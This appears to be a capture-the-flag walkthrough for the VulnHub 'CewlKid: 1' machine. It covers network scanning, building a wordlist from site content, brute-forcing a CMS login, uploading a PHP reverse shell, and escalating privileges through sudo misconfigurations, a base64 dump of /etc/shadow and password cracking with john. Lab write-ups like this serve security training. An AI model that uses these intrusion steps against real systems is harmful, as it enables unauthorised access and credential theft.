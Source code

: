 # CewlKid: 1

## 1.Get VM IP

```bash
root@kali: arp-scan -I eth0 -l

Interface: eth0, type: EN10MB, MAC: 08:00:27:b2:e9:3f, IPv4: 192.168.56.102
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1    0a:00:27:00:00:0f       (Unknown: locally administered)
192.168.56.100  08:00:27:ac:dd:85       PCS Systemtechnik GmbH
192.168.56.121  08:00:27:d7:32:a1       PCS Systemtechnik GmbH
```

The ip address is `192.168.56.121`, let's scan it.


## 2.Enumeration

```bash
root@kali: nmap -p80,22,8080 -v -sC -sV -oN nmap.out 192.168.56.121

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7c:87:08:d7:ed:3a:9d:f6:be:91:7e:01:24:c8:74:c0 (RSA)
|   256 d6:22:68:01:2c:e2:c5:72:8e:1b:23:68:77:3e:10:7d (ECDSA)
|_  256 bb:91:85:49:86:fd:af:66:42:a3:f4:12:90:a3:31:6a (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: nginx/1.18.0 (Ubuntu)
8080/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-generator: Sitemagic CMS
|_http-title: Welcome - about us
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-favicon: Unknown favicon MD5: E6E1C631192DE24218AC9348293A46CB
```

I begin with port 80 and there is just a simple apache web page, next we go for port `8080` and there is a CMS here

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/c8c8f1a4-6e71-4d9d-917d-1f3fd88b54c0)


we immediately see the login page for the CMS and now we need credentials, as the name of the CTF suggests that it is a hint

i can see that `cewl` is the name of wordlist generator base on the site content, lets create a wordlist :

```bash
root@kali: cewl -w wordlist.txt -d 5 -m 4 http://192.168.56.121:8080
```

now we can check for admin login, just catch the request in burp and send it to intruder and wait for a different response length :


yes. we found the password for login.


## 3.Gaining Shell

Inside the panel we see and admin menu which we can upload file in it, just upload a php reverse shell and the load it :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/e44ab129-72b0-43c1-84be-6513db3b7ad3)


start a listener and navigate to `http://192.168.56.121/files/image/rev.php` to get the shell :

```bash
root@kali: nc -nvlp 4444
listening on [any] 4444 ...

connect to [192.168.56.102] from (UNKNOWN) [192.168.56.121] 46618
Linux cewlkid 5.4.0-47-generic #51-Ubuntu SMP Fri Sep 4 19:50:52 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 12:45:39 up  1:55,  0 users,  load average: 0.00, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off

$ $ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## 4.Privilege Escalation (ipsum)

Using `sudo -l` we find our sudo permissions and this is where we see that we can run `/usr/bin/cat` as user ipsum :

```bash
$ sudo -l
Matching Defaults entries for www-data on cewlkid:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on cewlkid:
    (ipsum : ipsum) NOPASSWD: /usr/bin/cat
```

let's check which files use ipsum has access to :

```bash
$ find / -user ipsum -type f 2>/dev/null
/var/www/example.com/html/.../nothing_to_see_here
```

let's see the content of it :

```bash
$ sudo -u ipsum /usr/bin/cat /var/www/example.com/html/.../nothing_to_see_here
aXBzdW0gOiBTcGVha1Blb3BsZTIyIQo=
bG9yZW0gOiBQZW9wbGVTcGVhazQ0IQo=
```

decode the strings :

```text
ipsum : SpeakPeople22!

lorem : PeopleSpeak44!
```

## 5.Privilege Escalation (lorem)

Change the user to lorem and check sudo permissions again :

```bash
sudo -l
Matching Defaults entries for lorem on cewlkid:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lorem may run the following commands on cewlkid:
    (root : root) NOPASSWD: /usr/bin/base64 /etc/shadow
```

now we can get base64 encode of `/etc/shadow`, get it and merge it with `/etc/passwd` :

```bash
root@kali: unshadow passwd.txt shadow.txt > unshadow.txt
```

use the wordlist we generated earlier again :

```bash
john unshadow.txt --wordlist=wordlist.txt                
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
PageMaker        (zerocewl)     
1g 0:00:00:00 DONE (2024-02-17 08:06) 3.125g/s 559.3p/s 2796c/s 2796C/s Follow..Language
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

yes we found another user password


## 6.Privilege Escalation (zerocewl)

Change user to `zerocewl` and check the system with `pspy64` to monitor the processes :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/fa946de9-bfa4-4510-9c43-3c2b006303f4)


now we see plain credentials of user `cewlbeans`

## 7.Privilege Escalation (cewlbeans)

change user to cewlbeans and check for sudo permissions :

```bash
cewlbeans@cewlkid:/$ sudo -l
sudo -l
[sudo] password for cewlbeans: fondateurs

Matching Defaults entries for cewlbeans on cewlkid:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cewlbeans may run the following commands on cewlkid:
    (ALL : ALL) ALL
```

now we can freely switch to root :

```bash
cewlbeans@cewlkid:/$ sudo bash

root@cewlkid:~# cat root.txt
        ______  ___________    __    ____  __       __  ___  __   _______                    
       /      ||   ____\   \  /  \  /   / |  |     |  |/  / |  | |       \                   
      |  ,----'|  |__   \   \/    \/   /  |  |     |  '  /  |  | |  .--.  |                  
      |  |     |   __|   \            /   |  |     |    <   |  | |  |  |  |                  
      |  `----.|  |____   \    /\    /    |  `----.|  .  \  |  | |  '--'  |                  
       \______||_______|   \__/  \__/     |_______||__|\__\ |__| |_______/                   
                                                                                             
                  .______        ______     ______   .___________.                           
                  |   _  \      /  __  \   /  __  \  |           |                           
                  |  |_)  |    |  |  |  | |  |  |  | `---|  |----`                           
                  |      /     |  |  |  | |  |  |  |     |  |                                
                  |  |\  \----.|  `--'  | |  `--'  |     |  |                                
                  | _| `._____| \______/   \______/      |__|                                
                                                                                             
.______      .___  ___. ___   ___  __    __   ________  ____    __    ____  ______           
|   _  \     |   \/   | \  \ /  / |  |  |  | |       /  \   \  /  \  /   / /  __  \   ______ 
|  |_)  |    |  \  /  |  \  V  /  |  |__|  | `---/  /    \   \/    \/   / |  |  |  | |______|
|      /     |  |\/|  |   >   <   |   __   |    /  /      \            /  |  |  |  |  ______ 
|  |\  \----.|  |  |  |  /  .  \  |  |  |  |   /  /----.   \    /\    /   |  `--'  | |______|
| _| `._____||__|  |__| /__/ \__\ |__|  |__|  /________|    \__/  \__/     \______/          
RmxhZwo=
```

This is how you can finish this box :)










